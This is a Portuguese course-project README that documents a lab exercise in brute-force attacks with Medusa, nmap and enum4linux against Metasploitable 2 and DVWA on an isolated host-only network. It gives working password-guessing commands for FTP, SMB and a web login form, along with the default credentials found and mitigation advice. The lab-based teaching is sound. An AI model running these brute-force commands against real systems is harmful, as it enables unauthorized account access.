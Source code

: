 # Projeto de Segurança: Ataques de Força Bruta com Kali Linux e Medusa

## Introdução
Este projeto foi desenvolvido como parte do curso de Segurança da Informação da DIO, com o objetivo de explorar técnicas de ataques de força bruta em ambientes controlados, utilizando **Kali Linux**, **Medusa** e **Metasploitable 2**. O foco é aprender sobre segurança ofensiva e práticas de mitigação.

## Configuração do Ambiente

### Ferramentas Utilizadas
- **VirtualBox**: Versão 7.0
- **Kali Linux**: Versão 2025.1
- **Metasploitable 2**: Ambiente vulnerável para testes

### Configuração da Rede
- **Tipo de Rede**: Host-Only (`192.168.56.0/24`)
- **Passos**:
  1. Instalação do VirtualBox e criação da rede host-only.
  2. Configuração das VMs Kali Linux e Metasploitable 2.
  3. Verificação de conectividade com o comando:
     ```bash
     ping 192.168.56.101
     ```

## Configuração e Testes

### 1. Criando a Wordlists
Para os testes, criamos wordlists simples manualmente. Em cenários reais, recomenda-se usar wordlists mais robustas disponíveis na internet.

- **Usuários** (`users.txt`):
  ```bash
  echo -e "admin\nadministrador\nuser\nmsfadmin\nguest" > users.txt
  ```
- **Senhas** (`passwords.txt`):
  ```bash
  echo -e "password\nadmin\n123456\n12345678\nwelcome\nwelcome123\nmsfadmin\nqwerty123" > passwords.txt
  ```
- **Verificação**:
  ```bash
  less users.txt
  less passwords.txt
  ```
- **Observação**: O `\n` é usado para quebra de linha. Essas wordlists serão utilizadas em todos os testes.

### 2. Escaneamento de Portas com Nmap
Antes dos ataques, usamos o **Nmap** para listar portas abertas e versões dos serviços no Metasploitable 2:
```bash
nmap -sV -p 21,22,139,443,445,80,8080 192.168.56.101
```
- **Observação**: O Nmap suporta vários parâmetros, como faixas de portas e IPs, permitindo exploração detalhada.

### 3. Realização dos Ataques

#### Ataque 1: Servidor FTP
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 6
  ```
- **Descrição**: Tentativa de força bruta no serviço FTP com 6 threads (`-t 6`) para maior eficiência.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:msfadmin`).
- **Captura de Tela**: `/images/Medusa_FTP.jpg`.
- - **Captura de Tela**: `/images/Acesso_FTP.jpg`.

#### Ataque 2: Servidor SMB
- **Enumeração de Usuários**:
  ```bash
  enum4linux -U 192.168.56.101 > users.txt
  ```
  - Este comando enumera usuários SMB, que podem ser usados para atualizar a wordlist `users.txt`.
- **Ataque com Medusa**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -P password.txt -M smbnt -t 6
  ```
- **Descrição**: Password spraying com a senha comum `password` para todos os usuários.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:password`).
- **Captura de Tela**: `/images/SMB_1.jpg`.

#### Ataque 3: DVWA (Formulário Web)
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -u admin -P passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
  ```
- **Descrição**: Ataque de força bruta no formulário de login do DVWA. O formulário HTML deve ser inspecionado para ajustar os parâmetros (`username`, `password`, botão `Login`).
- **Resultado**: Credenciais válidas (ex.: `admin:password`).
- **Captura de Tela**: `/images/DVWA.jpg`.
- **Captura de Tela**: `/images/DVWA_2.jpg`.
- **Observação**: Consulte o código-fonte do formulário para garantir que os parâmetros estejam corretos.

## Medidas de Mitigação
- **Senhas Fortes**: Use senhas com 12+ caracteres, combinando letras, números e símbolos.
- **Limitação de Tentativas**: Configure bloqueio após 3-5 tentativas falhas (ex.: Fail2Ban).
- **Firewall**: Restrinja portas desnecessárias (ex.: `iptables -A INPUT -p tcp --dport 21 -j DROP`).
- **Protocolos Seguros**: Substitua FTP por SFTP e desative contas SMB padrão.
- **Monitoramento**: Use sistemas de detecção de intrusão (ex.: Snort).
- **Atualizações**: Mantenha sistemas e serviços atualizados.

## Estrutura do Repositório
```
Curso_Seguranca_DIO/
├── README.md
├── wordlists/
│   ├── users.txt
│   ├── passwords.txt
├── images/
│   ├── screenshot_ftp_success.png
│   ├── screenshot_smb_enum.png
│   ├── screenshot_dvwa_login.png
```
## Lições Aprendidas
- A importância de wordlists bem elaboradas para ataques de força bruta.
- A necessidade de configurar ambientes de teste isolados (rede host-only).
- A relevância de inspecionar formulários HTML para ataques web.
- A importância de práticas de segurança para proteger sistemas reais.
